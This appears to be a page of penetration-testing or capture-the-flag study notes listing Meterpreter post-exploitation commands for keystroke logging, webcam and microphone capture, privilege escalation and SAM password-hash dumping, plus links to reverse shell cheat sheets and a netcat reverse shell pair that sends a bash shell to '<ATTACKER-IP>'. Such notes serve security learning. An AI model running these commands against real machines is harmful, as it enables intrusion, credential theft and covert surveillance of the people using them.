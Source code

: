 **Others Commands** (these will be listed under different menu categories in the help menu)
- idletime: Returns the number of seconds the remote user has been idle
- keyscan_dump: Dumps the keystroke buffer
- keyscan_start: Starts capturing keystrokes
- keyscan_stop: Stops capturing keystrokes
- screenshare: Allows you to watch the remote user's desktop in real time
- screenshot: Grabs a screenshot of the interactive desktop
- record_mic: Records audio from the default microphone for X seconds
- webcam_chat: Starts a video chat
- webcam_list: Lists webcams
- webcam_snap: Takes a snapshot from the specified webcam
- webcam_stream: Plays a video stream from the specified webcam
- getsystem: Attempts to elevate your privilege to that of local system
- hashdump: Dumps the contents of the SAM database

**Post-Exploitation with Meterpreter**
- ``` getuid ```
- ``` ps ```
- ``` migrate 716 ``` Meterpreter migrating to process ID 716.
- ``` hashdump ```  list the content of the SAM database, SAM (Security Account Manager),
- ``` search -f flag2.txt ``` quickly find a flag or proof file
- ``` shell ``` 
- ``` getsystem ```
- ``` load python ```
- ``` load kiwi ``` 

**usage on a WINDOWS machine**
- ``` set payload windows/meterpreter/reverse_tcp ```
- ``` sysinfo ```
- ``` hashdump ```
- ``` post/windows/gather/enum_domain ```
- ``` post/windows/gather/enum_shares ```
- ``` post/windows/manage/migrate ```
- NTLM hash, the second hash after command hashdump, what is the first.
- ``` meterpreter > search -f secrets.txt ```
- ``` meterpreter > cat "{file_path}" ```

## Shell

**tool: set up listener**
- Netcat, Socat, Metasploit -- multi/handler,
- PayloadsAllTheThings. Reverse Shell Cheat Sheet https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- pentestmonkey. Reverse Shell Cheat Sheet. https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- SecLists https://github.com/danielmiessler/SecLists

**Types of Shell**
Reverse shell.
- attacker listen.
- Reverse shells. need to configure your own network to accept the shell.
- attack: ``` sudo nc -lvnp 443 ```
- target: ``` nc <ATTACKER-IP> <PORT> -e /bin/bash ```
